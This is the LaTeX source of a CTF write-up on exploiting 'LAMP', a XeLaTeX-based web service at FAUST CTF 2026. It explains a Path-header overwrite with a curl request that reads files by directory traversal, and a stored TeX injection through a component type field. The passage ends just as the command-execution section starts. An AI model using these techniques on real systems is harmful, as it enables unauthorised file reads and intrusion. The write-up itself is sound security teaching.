\documentclass[11pt]{article}

% ============================================================
% LAMP -- FAUST CTF 2026
% TECHNICAL SECURITY RESEARCH / CTF WRITEUP
%
% LaTeX // Apache // MariaDB // Pain
% ============================================================

% ------------------------------------------------------------
% Metadata
% ------------------------------------------------------------

\newcommand{\ReportDate}{September 28, 2026}
\newcommand{\ReportDateISO}{2026.09.28}

\newcommand{\ReportTitle}{LAMP}

\newcommand{\ReportSubtitle}{
  From a Path Header to Container-Root RCE Through XeLaTeX
}

\newcommand{\ReportAuthor}{Denis Krüger}
\newcommand{\ReportEvent}{FAUST CTF 2026}
\newcommand{\ReportTeam}{t3l3tzp3\_wu3}

% ------------------------------------------------------------
% Encoding and language
% ------------------------------------------------------------

\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage[english]{babel}

% ------------------------------------------------------------
% Typography
% ------------------------------------------------------------

\usepackage{lmodern}
\usepackage[scaled=0.94]{helvet}
\usepackage{microtype}
\usepackage{parskip}

\setlength{\parindent}{0pt}
\setlength{\parskip}{0.7em}

\raggedbottom
\clubpenalty=10000
\widowpenalty=10000
\displaywidowpenalty=10000
\emergencystretch=2em

\newcommand{\displayfont}{\sffamily}

% ------------------------------------------------------------
% Page layout
% ------------------------------------------------------------

\usepackage[
  a4paper,
  top=2.5cm,
  bottom=2.6cm,
  left=2.7cm,
  right=2.7cm
]{geometry}

% ------------------------------------------------------------
% MORI palette
% ------------------------------------------------------------

\usepackage{xcolor}

\definecolor{MoriNight}{HTML}{020006}
\definecolor{MoriPanel}{HTML}{0B0610}
\definecolor{MoriDeepPanel}{HTML}{13091C}

\definecolor{MoriPaper}{HTML}{F4F0FF}
\definecolor{MoriInk}{HTML}{17121D}

\definecolor{MoriMuted}{HTML}{BDA9E6}
\definecolor{MoriLavender}{HTML}{C9C2D6}

\definecolor{MoriPurple}{HTML}{9D4DFF}
\definecolor{MoriSoftPurple}{HTML}{C08CFF}
\definecolor{MoriDeepPurple}{HTML}{4A147A}

\definecolor{MoriMist}{HTML}{F7F4FA}
\definecolor{MoriCode}{HTML}{F1EDF5}
\definecolor{MoriRule}{HTML}{DED6E7}
\definecolor{MoriGray}{HTML}{7D7485}

% ------------------------------------------------------------
% Graphics / layout
% ------------------------------------------------------------

\usepackage{tikz}
\usetikzlibrary{calc,positioning}

\usepackage{graphicx}
\usepackage{enumitem}
\usepackage{booktabs}
\usepackage{array}
\usepackage{longtable}

% ------------------------------------------------------------
% Code and terminal blocks
% ------------------------------------------------------------

\usepackage{listings}

\lstdefinestyle{terminal}{
  backgroundcolor=\color{MoriCode},
  basicstyle=\ttfamily\footnotesize\color{MoriInk},
  frame=l,
  rulecolor=\color{MoriPurple},
  framerule=2.2pt,
  framesep=9pt,
  breaklines=true,
  breakatwhitespace=false,
  columns=fullflexible,
  keepspaces=true,
  showstringspaces=false,
  tabsize=4,
  xleftmargin=0.4em,
  xrightmargin=0.2em,
  framexleftmargin=0pt,
  aboveskip=1em,
  belowskip=1em,
  captionpos=b
}

\lstset{style=terminal}

% ------------------------------------------------------------
% Callout boxes
% ------------------------------------------------------------

\usepackage[most]{tcolorbox}

\tcbset{
  moribox/.style={
    enhanced,
    breakable,
    sharp corners,
    boxrule=0.45pt,
    colframe=MoriRule,
    colback=MoriMist,
    coltext=MoriInk,
    borderline west={2.6pt}{0pt}{MoriPurple},
    left=4mm,
    right=4mm,
    top=3mm,
    bottom=3mm,
    before skip=1em,
    after skip=1em
  }
}

\newtcolorbox{findingbox}{
  moribox,
  before upper={%
    \displayfont\scriptsize\bfseries\color{MoriPurple}
    FINDING\enspace//\par\smallskip
    \normalfont\normalsize\color{MoriInk}%
  }
}

\newtcolorbox{evidencebox}{
  moribox,
  borderline west={2pt}{0pt}{MoriLavender},
  before upper={%
    \displayfont\scriptsize\bfseries\color{MoriMuted}
    EVIDENCE\enspace//\par\smallskip
    \normalfont\normalsize\color{MoriInk}%
  }
}

\newtcolorbox{checkpointbox}{
  moribox,
  borderline west={3pt}{0pt}{MoriPurple},
  before upper={%
    \displayfont\scriptsize\bfseries\color{MoriPurple}
    CHECKPOINT\enspace//\par\smallskip
    \normalfont\normalsize\color{MoriInk}%
  }
}

\newtcolorbox{limitationbox}{
  moribox,
  colback=MoriCode,
  borderline west={2pt}{0pt}{MoriGray},
  before upper={%
    \displayfont\scriptsize\bfseries\color{MoriMuted}
    LIMITATION\enspace//\par\smallskip
    \normalfont\normalsize\color{MoriInk}%
  }
}

% ------------------------------------------------------------
% Headings
% ------------------------------------------------------------

\usepackage{titlesec}

\titleformat{\section}
  {\displayfont\LARGE\bfseries\color{MoriDeepPurple}}
  {\thesection}
  {0.8em}
  {}

\titleformat{\subsection}
  {\displayfont\Large\bfseries\color{MoriInk}}
  {\thesubsection}
  {0.8em}
  {}

\titleformat{\subsubsection}
  {\displayfont\large\bfseries\color{MoriInk}}
  {\thesubsubsection}
  {0.8em}
  {}

% ------------------------------------------------------------
% Headers / footers
% ------------------------------------------------------------

\usepackage{fancyhdr}

\pagestyle{fancy}
\fancyhf{}

\fancyhead[L]{%
  \displayfont\footnotesize\bfseries
  \textcolor{MoriDeepPurple}{LAMP}
}

\fancyhead[R]{%
  \displayfont\footnotesize
  \textcolor{MoriGray}{FAUST CTF 2026}
}

\fancyfoot[C]{%
  \displayfont\footnotesize
  \textcolor{MoriGray}{\thepage}
}

\renewcommand{\headrulewidth}{0.3pt}

\renewcommand{\headrule}{%
  \hbox to\headwidth{%
    \color{MoriRule}
    \leaders\hrule height \headrulewidth
    \hfill
  }
}

% ------------------------------------------------------------
% Hyperlinks
% ------------------------------------------------------------

\usepackage{hyperref}

\hypersetup{
  colorlinks=true,
  linkcolor=MoriPurple,
  citecolor=MoriPurple,
  urlcolor=MoriPurple,
  pdfborder={0 0 0},
  pdftitle={LAMP - FAUST CTF 2026},
  pdfsubject={Technical Security Research and CTF Writeup},
  pdfauthor={Denis Krüger}
}

% ------------------------------------------------------------
% Utility
% ------------------------------------------------------------

\newcommand{\code}[1]{%
  \begingroup
  \setlength{\fboxsep}{1.7pt}%
  \colorbox{MoriCode}{%
    \texttt{\small\color{MoriDeepPurple}\strut #1}%
  }%
  \endgroup
}

% ------------------------------------------------------------
% Cover artwork
% ------------------------------------------------------------

\newcommand{\LampGraphic}[1]{%
  \IfFileExists{assets/lamp.png}{%
    
\includegraphics[width=#1]{assets/lamp.png}%
  }{%
    \PackageWarning{lamp-report}{%
      assets/lamp.png not found; cover lamp omitted%
    }%
    \mbox{}%
  }%
}

% ============================================================
% FRONT COVER
% ============================================================

\newcommand{\MakeFrontCover}{%
  \begin{titlepage}
    \thispagestyle{empty}

    \begin{tikzpicture}[
      remember picture,
      overlay,
      x=1mm,
      y=1mm
    ]

      \begin{scope}[shift={(current page.south west)}]

        % Background
        \fill[MoriNight]
          (0,0)
          rectangle
          (210,297);

        % Purple left rail
        \fill[MoriPurple]
          (0,0)
          rectangle
          (7,297);

        % Top rule
        \draw[
          MoriPurple,
          line width=0.45pt
        ]
          (18,276)
          --
          (192,276);

        % Giant lamp artwork
        \node[
          anchor=east,
          inner sep=0pt,
          opacity=0.82
        ] at (240,150) {%
          \LampGraphic{186mm}%
        };

        % Header
        \node[
          anchor=west,
          inner sep=0pt,
          font=\displayfont\bfseries\fontsize{7.8}{9}\selectfont,
          text=MoriLavender
        ] at (29,268) {
          TECHNICAL SECURITY RESEARCH REPORT
        };

        \node[
          anchor=east,
          inner sep=0pt,
          font=\ttfamily\bfseries\fontsize{8.3}{9}\selectfont,
          text=MoriPurple
        ] at (184,268) {
          FAUST CTF 2026
        };

        % Main title
        \node[
          anchor=west,
          inner sep=0pt,
          font=\displayfont\bfseries\fontsize{48}{50}\selectfont,
          text=MoriPaper
        ] at (27,223) {
          LAMP
        };

        % Acronym expansion
        \node[
          anchor=west,
          inner sep=0pt,
          font=\ttfamily\bfseries\fontsize{6.8}{8.2}\selectfont,
          text=MoriMuted
        ] at (28,210) {
          LATEX
          \enspace
          \textcolor{MoriPurple}{//}
          \enspace
          APACHE
          \enspace
          \textcolor{MoriPurple}{//}
          \enspace
          MARIADB
          \enspace
          \textcolor{MoriPurple}{//}
          \enspace
          \textcolor{MoriPurple}{PAIN}
        };

        % Subtitle
        \node[
          anchor=north west,
          inner sep=0pt,
          text width=108mm,
          align=left,
          font=\displayfont\fontsize{17.5}{21}\selectfont,
          text=MoriPaper
        ] at (27,196) {
          From a Path Header to\\
          Container-Root RCE\\
          Through XeLaTeX
        };

        % Technical keywords
        \node[
          anchor=west,
          inner sep=0pt,
          font=\displayfont\bfseries\fontsize{6.8}{8}\selectfont,
          text=MoriGray
        ] at (27,150) {
          TEX INJECTION
          \enspace
          \textcolor{MoriPurple}{//}
          \enspace
          PATH HEADER
          \enspace
          \textcolor{MoriPurple}{//}
          \enspace
          SHELL ESCAPE
          \enspace
          \textcolor{MoriPurple}{//}
          \enspace
          RCE
        };

        % Metadata panel
        \fill[
          MoriPanel,
          opacity=0.94
        ]
          (27,41)
          rectangle
          (184,84);

        \draw[
          MoriMuted,
          line width=0.35pt
        ]
          (27,41)
          rectangle
          (184,84);

        \fill[MoriPurple]
          (27,41)
          rectangle
          (27.8,84);

        % AUTHOR
        \node[
          anchor=north west,
          inner sep=0pt,
          font=\displayfont\bfseries\fontsize{6.5}{7.5}\selectfont,
          text=MoriGray
        ] at (33,75) {
          AUTHOR
        };

        \node[
          anchor=north west,
          inner sep=0pt,
          font=\displayfont\bfseries\fontsize{9}{10}\selectfont,
          text=MoriPaper
        ] at (33,69) {
          \ReportAuthor
        };

        % PROJECT
        \node[
          anchor=north west,
          inner sep=0pt,
          font=\displayfont\bfseries\fontsize{6.5}{7.5}\selectfont,
          text=MoriGray
        ] at (78,75) {
          PROJECT
        };

        \node[
          anchor=north west,
          inner sep=0pt,
          font=\displayfont\bfseries\fontsize{9}{10}\selectfont,
          text=MoriPaper
        ] at (78,69) {
          LAMP Security Research
        };

        % IMPACT
        \node[
          anchor=north west,
          inner sep=0pt,
          font=\displayfont\bfseries\fontsize{6.5}{7.5}\selectfont,
          text=MoriGray
        ] at (132,75) {
          IMPACT
        };

        \node[
          anchor=north west,
          inner sep=0pt,
          text width=48mm,
          font=\displayfont\bfseries\fontsize{8.4}{9.5}\selectfont,
          text=MoriPaper
        ] at (132,69) {
          Container-Root RCE
        };

        % ENVIRONMENT
        \node[
          anchor=north west,
          inner sep=0pt,
          font=\displayfont\bfseries\fontsize{6.5}{7.5}\selectfont,
          text=MoriGray
        ] at (33,57) {
          ENVIRONMENT
        };

        \node[
          anchor=north west,
          inner sep=0pt,
          font=\displayfont\bfseries\fontsize{9}{10}\selectfont,
          text=MoriPaper
        ] at (33,51) {
          FAUST CTF 2026
        };

        % FOCUS
        \node[
          anchor=north west,
          inner sep=0pt,
          font=\displayfont\bfseries\fontsize{6.5}{7.5}\selectfont,
          text=MoriGray
        ] at (78,57) {
          FOCUS
        };

        \node[
          anchor=north west,
          inner sep=0pt,
          font=\displayfont\bfseries\fontsize{9}{10}\selectfont,
          text=MoriPaper
        ] at (78,51) {
          Exploit / Analyze / Automate
        };

        % REPORT DATE
        \node[
          anchor=north west,
          inner sep=0pt,
          font=\displayfont\bfseries\fontsize{6.5}{7.5}\selectfont,
          text=MoriGray
        ] at (132,57) {
          REPORT DATE
        };

        \node[
          anchor=north west,
          inner sep=0pt,
          font=\displayfont\bfseries\fontsize{9}{10}\selectfont,
          text=MoriPaper
        ] at (132,51) {
          \ReportDate
        };

        % Footer
        \node[
          anchor=west,
          inner sep=0pt,
          font=\displayfont\fontsize{6.8}{8}\selectfont,
          text=MoriGray
        ] at (27,29) {
          \ReportTeam
          \enspace
          //
          \enspace
          offensive security research
        };

        \node[
          anchor=east,
          inner sep=0pt,
          font=\displayfont\fontsize{6.8}{8}\selectfont,
          text=MoriGray
        ] at (184,29) {
          live competition / documented exploitation
        };

        % Decorative service port
        \node[
          anchor=south east,
          inner sep=0pt,
          font=\displayfont\bfseries\fontsize{40}{42}\selectfont,
          text=MoriPaper,
          opacity=0.065
        ] at (190,8) {
          1337
        };

      \end{scope}

    \end{tikzpicture}

    \null
  \end{titlepage}
}

% ============================================================
% DOCUMENT
% ============================================================

\begin{document}

% ------------------------------------------------------------
% Front cover
% ------------------------------------------------------------

\hypersetup{pageanchor=false}

\MakeFrontCover

\hypersetup{pageanchor=true}

% ------------------------------------------------------------
% Front matter
% ------------------------------------------------------------

\pagenumbering{roman}

\section*{Abstract}

\addcontentsline{toc}{section}{Abstract}

\begin{tcolorbox}[
  enhanced,
  breakable,
  sharp corners,
  frame hidden,
  colback=MoriPaper,
  borderline west={2.4pt}{0pt}{MoriPurple},
  left=4mm,
  right=2mm,
  top=1mm,
  bottom=1mm
]

This report documents the analysis and exploitation of LAMP (\emph{LaTeX, Apache, MariaDB, Pain}) 
during FAUST CTF 2026. The service used XeLaTeX for parts of its HTTP handling and application logic,
creating several paths for user-controlled data to become executable TeX.

We show how a \code{Path} header overwrite enabled file reads and how a stored component type led to command execution as root inside the service container. 
A newline in a persisted ship name provided a carrier for commands that exceeded the component field's 32-byte limit.
During the live Attack/Defense competition, 
we used the resulting chain to recover flags from vulnerable instances and submit them through our team's MOTH infrastructure.

\end{tcolorbox}

% ------------------------------------------------------------
% Contents
% ------------------------------------------------------------

\clearpage

\markboth{Contents}{}

\tableofcontents

\clearpage

% ------------------------------------------------------------
% Main report
% ------------------------------------------------------------

\pagenumbering{arabic}

% ============================================================
% 01 -- WHAT THE HELL IS LAMP?
% ============================================================

\section{What the Hell Is LAMP?}
\label{sec:introduction}

LAMP was one of the services deployed during FAUST CTF 2026.

From the outside, it behaved like a fairly normal web application:
users could register accounts, create ships, add components, and later
view the resulting state through HTTP requests.

The implementation was considerably less normal.

Large parts of the service were processed through XeLaTeX.

\begin{center}
  \displayfont\bfseries
  LaTeX // Apache // MariaDB // \textcolor{MoriPurple}{Pain}
\end{center}

That last component became increasingly accurate as the analysis
continued.


% ------------------------------------------------------------
% 1.1
% ------------------------------------------------------------

\subsection{Why XeLaTeX Matters}

LaTeX is normally used as a document preparation system. A source file
contains text together with commands, and a TeX engine interprets those
commands to produce a document.

A minimal example looks like this:

\begin{lstlisting}
\documentclass{article}

\begin{document}
Hello.
\end{document}
\end{lstlisting}

The important security detail is that TeX commands are not merely
formatting markers.

TeX includes macros, token expansion, file input and output, dynamic
control sequences, and other behaviour that makes it much closer to a
small programming environment than to a passive markup format.

That becomes interesting when values controlled by an HTTP client stop
being treated as ordinary text and instead become TeX source.

LAMP did exactly that in several places.


% ------------------------------------------------------------
% 1.2
% ------------------------------------------------------------

\subsection{And Then There Was Shell Escape}

The service started XeLaTeX using:

\begin{lstlisting}
xelatex -8bit --shell-escape /srv/main.tex
\end{lstlisting}

The important part is:

\begin{center}
  \code{--shell-escape}
\end{center}

Shell escape allows TeX functionality to invoke external operating-system
commands.

This is not automatically a vulnerability. If all TeX input is trusted,
it may be an intentional feature.

LAMP, however, processed attacker-controlled HTTP and database values
through that same TeX environment.

\begin{findingbox}
The interesting question was therefore not whether shell escape existed.

The question was whether user-controlled data could be transformed into
executable TeX before it reached a shell-enabled primitive.
\end{findingbox}


% ------------------------------------------------------------
% 1.3
% ------------------------------------------------------------

\subsection{The Exploit Chain}

The final exploit did not come from a single bug.

Instead, several smaller weaknesses could be chained together:

\begin{enumerate}

  \item A client-controlled \code{Path} header could overwrite the
        path used by the application after the original request path
        had already been validated.

  \item Component metadata stored in MariaDB was later inserted back
        into the generated TeX and interpreted during rendering.

  \item The useful injection field was limited to 32 bytes, restricting
        the commands that could be executed directly.

  \item A separate newline injection in persisted ship data provided a
        place to store a much longer shell command.

\end{enumerate}

Together, these behaviours provided:

\begin{center}
  \displayfont
  arbitrary file access
  $\longrightarrow$
  stored TeX injection
  $\longrightarrow$
  command execution
  $\longrightarrow$
  flag harvesting
\end{center}

The resulting command execution ran as root inside the LAMP service
container.

Throughout this writeup, this is therefore described as
\emph{container-root RCE}. The exploit did not by itself demonstrate
root access to the underlying Vulnbox host.


% ------------------------------------------------------------
% 1.4
% ------------------------------------------------------------

\subsection{What This Writeup Covers}

This is not intended to be a complete study of TeX internals.

The goal is much simpler:

\begin{itemize}

  \item document the code paths that mattered during the competition;

  \item explain the XeLaTeX behaviour required to understand the
        exploit;

  \item reconstruct how the individual primitives were chained;

  \item preserve the payloads and reasoning behind the final PoC;

  \item and document how the exploit was automated during the live CTF.

\end{itemize}

The next section begins with the first useful primitive:

\begin{center}
  \displayfont\large\bfseries
  convincing LAMP to read a path it had never actually validated.
\end{center}
% ============================================================
% 02 -- SERVICE OVERVIEW
% ============================================================

\section{Service Overview: HTTP, but Make It TeX}
\label{sec:service-overview}

Before looking at the individual vulnerabilities, it helps to understand
how a request moves through LAMP.

The central application entry point was \code{/srv/main.tex}. It configured
the service's Redis and MariaDB connections, loaded the custom HTTP
implementation, installed the authentication middleware, and finally started
request processing with:

\begin{lstlisting}
\httpMiddlewareUse{\authMiddleware}
\httpServe{}
\end{lstlisting}

In other words, XeLaTeX was not merely generating a page after some other
application had handled the request.

It was part of the application itself.


% ------------------------------------------------------------
% 2.1
% ------------------------------------------------------------

\subsection{Request Flow}

At a high level, a request followed this path:

\begin{enumerate}

  \item an HTTP request reached the LAMP service;

  \item the request was passed into the XeLaTeX process;

  \item the custom HTTP code parsed the request line, headers, cookies,
        query parameters, and POST body;

  \item the requested page was selected and loaded as TeX;

  \item application state was read from Redis, MariaDB, or files under
        \code{/storage};

  \item XeLaTeX expanded the resulting macros and generated the HTTP
        response.

\end{enumerate}

The important part is that HTTP state eventually became TeX state.

Headers could become control sequences. POST parameters became macros.
Database values were read back into TeX. Files containing user-controlled
data were later included by the renderer.

This created several opportunities for data that was originally supposed
to be passive to become executable TeX.


% ------------------------------------------------------------
% 2.2
% ------------------------------------------------------------

\subsection{Where LAMP Stored Its State}

LAMP split its state across three main locations.

\begin{center}
\begin{tabular}{p{0.22\textwidth} p{0.66\textwidth}}
  \toprule
  \textbf{Storage} & \textbf{Purpose} \\
  \midrule

  Redis &
  Sessions, usernames, passwords, and temporary authentication state. \\[0.4em]

  MariaDB &
  Ships and their components, including component coordinates, type,
  state, and properties. \\[0.4em]

  \code{/storage} &
  Per-user TeX files containing persistent ship data such as the ship
  name. \\

  \bottomrule
\end{tabular}
\end{center}

Even the database access was performed through TeX.

The custom SQL package wrote a query into a temporary file and then used
shell escape to invoke the MariaDB command-line client:

\begin{lstlisting}
\immediate\write18{
  mariadb ... < sqltmp.tex > sqloutput.tex
}
\end{lstlisting}

The result was then read back into the running TeX process.

Redis was handled in a similarly unusual fashion. TeX generated Redis
protocol messages and exchanged them with the Redis container through
a small helper script.

None of this was directly exploitable simply because it was unusual.

It did, however, mean that the boundaries between:

\begin{center}
  \displayfont
  HTTP
  $\longleftrightarrow$
  TeX
  $\longleftrightarrow$
  database
  $\longleftrightarrow$
  filesystem
  $\longleftrightarrow$
  shell
\end{center}

were extremely important.


% ------------------------------------------------------------
% 2.3
% ------------------------------------------------------------

\subsection{Persistent Ship Data}

Registration created more than a Redis account and a MariaDB ship entry.

LAMP also opened a file beneath \code{/storage} using the username and
stored the chosen ship name inside it:

\begin{lstlisting}
\immediate\openout\shipfile=/storage/\postusername{}
\store{\shipname}{\postshipname{}}
\immediate\closeout\shipfile{}
\end{lstlisting}

When the user later viewed their ship, the corresponding file was loaded
again:

\begin{lstlisting}
\input{/storage/\username{}.tex}
\end{lstlisting}

This detail becomes important later.

For now, the important observation is simply that attacker-controlled
data could survive a request, be written to disk as TeX, and then be
interpreted again during a future request.


% ------------------------------------------------------------
% 2.4
% ------------------------------------------------------------

\subsection{The First Useful Boundary}

The service contained a number of unusual trust boundaries, but the first
one that produced a useful exploitation primitive appeared very early in
request handling.

LAMP validated the path from the HTTP request line.

It then parsed the request headers.

One particular header could change the path that the application would
actually use afterwards.

That gave us our first primitive:

\begin{center}
  \displayfont\large\bfseries
  arbitrary file access through the \code{Path} header.
\end{center}
% ============================================================
% 03 -- PATH HEADER OVERWRITE
% ============================================================

\section{Path Header Overwrite}
\label{sec:path-header}

The first useful primitive came from a surprisingly small naming
collision.

LAMP parsed the requested path from the HTTP request line and stored it
inside the TeX macro \code{\textbackslash httpPath}.

The relevant code was:

\begin{lstlisting}
\newcommand{\httpParseLine}{
  \readln{\httpLine}
  \StrCut[1]{\httpLine}{ }{\httpMethod}{\httpLine}
  \StrCut[1]{\httpLine}{ }{\httpPath}{\httpVersion}
  \StrCut[1]{\httpPath}{?}{\httpPath}{\httpQuery}

  \xdef\httpMethod#1{\httpMethod}
  \xdef\httpPath#1{\httpPath}
  \xdef\httpVersion#1{\httpVersion}
}
\end{lstlisting}

So for a normal request such as:

\begin{lstlisting}
GET / HTTP/1.1
\end{lstlisting}

the application eventually ended up with roughly:

\begin{lstlisting}
\httpPath{} -> /
\end{lstlisting}

So far, nothing particularly exciting.


% ------------------------------------------------------------
% 3.1
% ------------------------------------------------------------

\subsection{Headers Became TeX Macros}

The interesting part appeared immediately afterwards.

LAMP parsed every HTTP header and dynamically created a TeX control
sequence from its name:

\begin{lstlisting}
\newcommand{\httpParseHeader}{
  \loop
  \readln{\header}

  \unless\ifx\header\empty{

      \StrCut[1]{\header}{:}{\name}{\value}

      ...

      \edef\name{\httpTransformHeaderName{\name}}

      \expandafter\xdef
        \csname http\name\endcsname
        #1{\value}

    }

  \repeat
}
\end{lstlisting}

For example:

\begin{lstlisting}
Cookie: Session=abc
\end{lstlisting}

created a macro named approximately:

\begin{lstlisting}
\httpCookie{}
\end{lstlisting}

This was intended as a convenient way of exposing request headers to the
rest of the application.

Unfortunately, header names shared the same namespace as LAMP's internal
request state.


% ------------------------------------------------------------
% 3.2
% ------------------------------------------------------------

\subsection{The Collision}

One internal variable was already named:

\begin{lstlisting}
\httpPath
\end{lstlisting}

The corresponding HTTP header name was therefore fairly obvious:

\begin{lstlisting}
Path:
\end{lstlisting}

After LAMP transformed the header name and constructed the dynamic macro,
the following header:

\begin{lstlisting}
Path: /something
\end{lstlisting}

created:

\begin{lstlisting}
\httpPath{} -> /something
\end{lstlisting}

That replaced the path originally parsed from the request line.

\begin{findingbox}
The request path and HTTP headers were stored in the same dynamically
constructed TeX namespace.

As a result, a client-controlled \code{Path} header could overwrite the
internal \code{\textbackslash httpPath} variable.
\end{findingbox}


% ------------------------------------------------------------
% 3.3
% ------------------------------------------------------------

\subsection{Why Validation Did Not Save It}

This became particularly useful because path validation happened before
the malicious header replaced the path.

Conceptually, the request flow looked like this:

\begin{lstlisting}
GET / HTTP/1.1

        |
        v

validate "/"

        |
        v

Path: /../../etc/hostname

        |
        v

\httpPath = /../../etc/hostname
\end{lstlisting}

The request itself therefore used a completely legitimate route:

\begin{lstlisting}
GET /
\end{lstlisting}

Only afterwards did the \code{Path} header replace the value used by the
TeX application.

The validation applied to one value.

The application later consumed another.


% ------------------------------------------------------------
% 3.4
% ------------------------------------------------------------

\subsection{Turning It Into a File Read}

The static-file handler constructed paths using:

\begin{lstlisting}
\httpStatic\httpPath{}
\end{lstlisting}

where the static root was configured as:

\begin{lstlisting}
/srv/www/
\end{lstlisting}

With a traversal value in \code{\textbackslash httpPath}, this could
resolve outside the intended static directory.

The file-serving code then used the resulting path directly:

\begin{lstlisting}
\immediate\write18{
  cat "`cat path.tex`"
}
\end{lstlisting}

A minimal request therefore became:

\begin{lstlisting}
curl -g -6 --noproxy '*' \
  --path-as-is \
  -H 'Path: /../../etc/hostname' \
  'http://[TARGET]:1337/'
\end{lstlisting}

The request line still targeted the valid route \code{/}.

The \code{Path} header then replaced the internal path after parsing and
allowed the service to return files outside the intended web root.


% ------------------------------------------------------------
% 3.5
% ------------------------------------------------------------

\subsection{What This Gave Us}

At this point, the primitive was already useful:

\begin{center}
  \displayfont\large\bfseries
  attacker-controlled file retrieval inside the LAMP container
\end{center}

It could be used to retrieve files reachable by the service process,
including files created later during exploitation.

That last detail became especially important.

Once we found a way to execute a shell command and redirect its output
into a file, the same \code{Path} header bug gave us a convenient way to
retrieve the result over HTTP.

The exploit chain therefore gained its first reusable building block:

\begin{center}
  \displayfont
  \code{Path:}
  $\longrightarrow$
  overwrite \code{\textbackslash httpPath}
  $\longrightarrow$
  traverse filesystem
  $\longrightarrow$
  retrieve file
\end{center}

The next step was finding something more powerful than a file read:

\begin{center}
  \displayfont\large\bfseries
  making stored database content become executable TeX.
\end{center}
\section{Stored TeX Injection}
\label{sec:stored-tex-injection}

The interface offered three component types: \code{light}, \code{button},
and \code{source}. The backend nevertheless accepted arbitrary \code{typ}
values. It escaped the POST value for SQL and stored it in
\code{components.type}:

\begin{lstlisting}
\sqlescape{\posttyp{}}{\type}
% INSERT INTO components ... type = "\type" ...
\end{lstlisting}

When rendering a ship, the service read that column and reconstructed it as
TeX:

\begin{lstlisting}
\sqlparserow{\c}{compdata}
\edef\type#1{\compdata[3]}
\end{lstlisting}

SQL escaping protected the database query, but did not make the stored
value safe for TeX expansion. A useful payload also needed a backslash,
which proved awkward to pass literally through the input and storage path.
TeX's \code{\^{}\^{}5c} notation produces character \code{0x5c}, a
backslash, so \code{\^{}\^{}5cUseName} reached TeX as a control sequence.

The result was a stored injection: an HTTP POST saved attacker-controlled
component data, and a later render expanded that data as TeX.

% ============================================================
% 05 -- FROM TEX INJECTION TO RCE
% ============================================================

\section{From TeX Injection to Container-Root RCE}
\label{sec:rce}

At this point, attacker-controlled data could survive a trip through
MariaDB and later become TeX again.

The remaining question was:

\begin{center}
  \displayfont\large\bfseries
  can that TeX make XeLaTeX execute a shell command?
\end{center}

